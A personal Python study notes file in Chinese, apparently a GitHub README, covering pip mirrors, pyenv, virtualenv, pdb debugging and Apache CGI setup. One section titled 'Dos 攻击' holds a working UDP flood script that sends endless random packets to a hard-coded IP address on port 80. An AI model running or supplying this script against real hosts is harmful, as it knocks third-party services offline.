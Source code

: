 ﻿# Python学习

## 国内镜像下载

pip install -i https://pypi.tuna.tsinghua.edu.cn/simple some-package

## 多版本安装包

`python3.9 -m pip install tensorflow`

## 截屏转文字

英文: https://github.com/ianzhao05/textshot

设置 alias

`alias textshot="python /Users/linweiye/Documents/textshot/textshot.py"`

使用 textshot

中文识别: https://github.com/ouyanghuiyu/chineseocr_lite

## 爬虫库

Scrapy 安装 `pip install scrapy`

## 密码学库

一般用这个比较多 [crypto](https://pypi.org/project/pycrypto/)

## jupyter 使用

`jupyter notebook`

## 格式化错误输出

[一行代码简化Python异常信息：错误清晰指出，排版简洁美观](https://mp.weixin.qq.com/s/OdAGGHMd6tg-_Jn-wZIifQ)

`python -m pip install pretty_errors`


## .zshrc 配置

`eval "$(pyenv init -)"`


## 测试

pytest

## Dos 攻击

python 2.7.8

```python
import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

ip = '118.89.38.11'
port = 80

os.system("clear")
os.system("figlet Attack Starting")
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
```

## Python 调试功能

Thonny

## 虚环境安装

### venv
a single version different virtual environments
Python 单版本, 虚拟环境

给每个python项目提供不同环境，数据库版本等
```
pip install virtualenv  //安装
cd dir  //进项目目录
virtualenv venv //新建venv目录,复制系统python到venv
./venv/bin/pip install tornado //虚环境安装tornado
./venv/bin/python xxxx.py //虚环境运行xxxx.py
source ./venv/bin/activate //activate命令启动虚环境，不用显式调用虚环境bin
deactivate //退出虚环境
// 使用``~/.bashrc``的一个环境变量将解释器改为全局性的：
export VIRTUALENVWRAPPER_PYTHON=/usr/bin/python2.7
```
### pyenv

Python 多版本管理
to use multiple versions without virtual environments

```shell
brew update
brew pyenv install/upgrade
pyenv install 2.7.8
brew uninstall pyenv  卸载 pyenv
pyenv uninstall  卸载 python 版本
pyenv install 3.6.3  # Install Python version
pyenv install 3.4.0
pyenv versions       # Displays the currently active Python version, along with information on how it was set.
pyenv version       # Lists all Python versions known to pyenv, and shows an asterisk next to the currently active version.
pyenv global 3.6.3   # Set your system's Python version
pyenv shell 3.6.3   # Set your shell's Python version
pyenv shell   # show your shell's Python version
pyenv whence # Lists all Python versions with the given command installed.
pyenv install --list # 可以下载的版本
```

## xampp Apache服务器配置Python
打开httd.conf

AddHandler cgi-script .cgi .pl .asp 添加.py
AddHandler cgi-script .cgi .pl .asp .py
把mycgi-test.py放到xampp\cgi-bin下,浏览器打开
localhost/cgi-bin/mycgi-test.py

mycgi-test.py代码
```
#! C:\Python27\python.exe # python接收器路径
 
print 'Content-type:text/plain'
print
 
print"Hello Cooder"
```
## window上cmd显示中文问题

在程序里打中文编码为unicode编码，就是utf-8
print u"中文"  #前面加上u
s="爱你"
print s.decode('utf-8')  #或者强制编码
## 调试
python -m pdb my.py
b 10 第10行断点
n next
s step
l list
p print
c contune
q quit
j 10 jump 10 跳到第10行
直接回车是重复前一条命令!